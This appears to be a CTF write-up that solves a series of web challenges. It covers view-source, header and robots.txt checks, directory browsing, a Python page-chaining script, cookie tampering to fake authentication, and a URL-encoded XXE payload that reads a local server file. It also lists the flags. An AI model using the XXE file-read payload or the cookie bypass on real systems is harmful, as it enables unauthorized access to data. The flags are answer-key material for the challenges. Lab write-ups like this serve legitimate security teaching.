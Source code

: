**[Source of All Evil](http://167.71.246.232/)**  
View soure, we got the flag
```
flag{best_implants_ever}
```
**[Headers for you inspiration]((http://167.71.246.232/)**  
Using burp suite to view header, we got the flag
```
flag{headersftw}
```

**[Stay Away Creepy Crawlers](http://167.71.246.232/)**  
Check http://167.71.246.232:8080/robots.txt and we got the flag
```
flag{mr_roboto}
```
**[Show me what you got](http://167.71.246.232/)**  
View source, it has a img src
```html
<img src='/images/doc_jones.png'>
```
Check images folder, we got the flag in http://167.71.246.232/images/aljdi3sd.txt
```
flag{disable_directory_indexes}
```

**[Can't find it](http://167.71.246.232/)**  
Just go somewhere Page not found and we got
```
flag{404_oh_no}
```

**[Ripper Doc](http://167.71.246.232/)**  
Go to first link in menu http://167.71.246.232/certified_rippers.php  
We have a hint
```
Sorry, gotta be in the club to get this list.
```
Check cookie and change <i>authenticated</i> to True, we got the flag
```
flag{messing_with_cookies}
```

**[Follow The Rabbit Hole](http://167.71.246.232/)**  
Write the code to follow page
```python
import requests

url = 'http://167.71.246.232:8080/rabbit_hole.php?page='
code = 'cE4g5bWZtYCuovEgYSO1'
i = 0;
while i < 1:
    x = requests.get(url+code)
    code = x.text.split(' ')[2]
    print(x.text)
    i = i + 1
```
Notice that i = 1582, this will end, and the first parameter is less than 1582, so assume it is a index, and the second parameter is a value
```python
import requests

url = 'http://167.71.246.232:8080/rabbit_hole.php?page='
code = 'cE4g5bWZtYCuovEgYSO1'
i = 0;
a = ['0' for i in range(1582)]
while i < 15:
    x = requests.get(url+code)
    code = x.text.split(' ')[2]
    para1 = int(x.text.split(', ')[0].split('[')[1])
    para2 = x.text.split(', \'')[1].split('\']')[0]
    a[para1] = para2
    i = i + 1
s = ''
for c in a:
    s = s + c
print(s)
```
Using [Cyberchef](https://gchq.github.io/CyberChef/) to check this. It's a png image  
![img](https://lhtthao0430.github.io/web/tenable/FollowTheRabbitHole.png)  
We got
```
flag{automation_is_handy}
```

**[Send A Letter](http://challenges.ctfd.io:30471/)**  
View source, in line 34 it send a get request  
```
$.get("send_letter.php?letter="+letter, function(data, status){
			alert("Data: " + data + "\nStatus: " + status);
		});
```
In line 13 it uses xml
```
var letter = "<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?>";
```
We can use XXE attack
```html
xml%20version=%221.0%22%20encoding=%22ISO-8859-1%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ENTITY%20xxe%20SYSTEM%20%22file:///tmp/messages_outbound.txt%22%3E%20]%3E%3Cletter%3E%3Cname%3E%26xxe;%3C/name%3E%3C/letter%3E
```
We got the flag
```
flag{xxe_aww_yeah}
```